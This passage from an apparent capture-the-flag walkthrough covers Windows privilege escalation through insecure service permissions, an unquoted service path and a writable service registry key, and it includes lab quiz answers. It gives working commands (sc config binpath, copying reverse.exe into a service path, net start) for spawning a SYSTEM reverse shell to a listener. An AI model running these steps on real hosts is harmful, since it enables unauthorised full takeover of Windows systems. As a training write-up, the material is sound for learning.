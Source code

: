 sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:

net start daclsvc

### Questions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#questions "Permalink to this heading")

**What is the original `BINARY_PATH_NAM`E of the `daclsvc` service?**

Answer: `C:\Program Files\DACL Service\daclservice.exe`

## Service exploits - Unquoted service path[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#service-exploits-unquoted-service-path "Permalink to this heading")

Query the `unquotedsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`) and that the `BINARY_PATH_NAME` is unquoted and contains spaces.

sc qc unquotedsvc

Using `accesschk.exe`, note that the `BUILTIN\Users` group is allowed to write to the `C:\Program Files\Unquoted Path Service\` directory:

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

Copy the reverse.exe executable you created to this directory and rename it `Common.exe`:

copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

net start unquotedsvc

### Questions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#id1 "Permalink to this heading")

**What is the `BINARY_PATH_NAME` of the `unquotedsvc` service?**

Answer: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

## Service exploits - Weak registry permissions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#service-exploits-weak-registry-permissions "Permalink to this heading")

Query the `regsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`).

sc qc regsvc

Using `accesschk.exe`, note that the registry entry for the `regsvc` service is writable by the `NT AUTHORITY\INTERACTIVE` group (essentially all logged-on users):

C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

Overwrite the `ImagePath` registry key to point to the `reverse.exe` executable you created:
